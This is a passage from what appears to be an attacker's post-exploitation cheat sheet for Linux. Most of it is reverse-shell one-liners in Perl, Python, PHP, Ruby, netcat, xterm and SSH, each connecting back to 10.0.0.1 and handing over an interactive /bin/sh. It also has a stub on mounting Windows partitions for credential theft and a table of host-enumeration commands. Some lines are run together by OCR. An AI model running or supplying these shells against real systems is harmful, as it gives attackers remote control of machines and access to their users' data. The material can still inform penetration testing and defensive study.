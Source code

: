 -   perl -e \'use Socket; \$i=\"10.0.0.1\"; \$p=1234; socket(S,PF\_INET,
    SOCK\_STREAM, getprotobyname(\"tcp\"));
    if(connect(S,sockaddr\_in(\$p,inet\_aton(\$i)))){
    open(STDIN,\"\>&S\"); open(STDOUT,\"\>&S\"); open(STDERR,\"\>&S\");
    exec(\"/bin/sh -i\");};\'

-   python -c \'import socket,subprocess,os;
    s=socket.socket(socket.AF\_INET, socket.SOCK\_STREAM);
    s.connect((\"10.0.0.1\",1234)); os.dup2(s.fileno(),0);
    os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);
    p=subprocess.call(\[\"/bin/sh\",\"-i\"\]);\'

-   php -r \'\$sock=fsockopen(\"10.0.0.1\",1234);exec(\"/bin/sh -i
    \<&3 \>&3 2\>&3\");\'

-   ruby -rsocket -e\'f=TCPSocket.open(\"10.0.0.1\",1234).to\_i; exec
    sprintf(\"/bin/sh -i \<&%d \>&%d 2\>&%d\",f,f,f)\' nc -e /bin/sh
    10.0.0.1 1234 \# note need -l on some versions, and many does NOT
    support -e anymore

-   rm /tmp/f;mkfifo /tmp/f;cat /tmp/f\|/bin/sh -i 2\>&1\|nc 10.0.0.1
    1234 \>/tmp/f

-   xterm -display 10.0.0.1:1

    -   Listener- Xnest :1

    -   Add permission to connect- xhost +victimIP

-   ssh -NR 3333:localhost:22 user@yourhost

-   nc -e /bin/sh 10.0.0.1 1234

Fun if Windows is present and accessible
========================================

If there is Windows installed and the logged-in user access level
includes those Windows partition, attacker can mount them up and do a
much deeper information gathering, credential theft and root-ing.
Ntfs-3g is useful for mounting ntfs partitions read-write.

**TODO**: insert details on what to look for

Stuff to be sorted
==================

**\#\# GOING TO MOVE EVERYTHING HERE FOR LEGIBILITY ONCE EDITING DIES
DOWN**

+-----------------------------------+-----------------------------------+
| **Command**                       | **Output**                        |
+-----------------------------------+-----------------------------------+
| *uname -a*                        | Linux kernel version, usually     |
|                                   | distribution too                  |
+-----------------------------------+-----------------------------------+
| *ps aux*                          | List of running processes         |
+-----------------------------------+-----------------------------------+
| *id*                              | List current user and group along |
|                                   | with user/group id                |
+-----------------------------------+-----------------------------------+
| *w*                               | Show info about who is logged,    |
|                                   | what are they are doing           |
+-----------------------------------+-----------------------------------+
| *who -a*                          | Print information about users     |
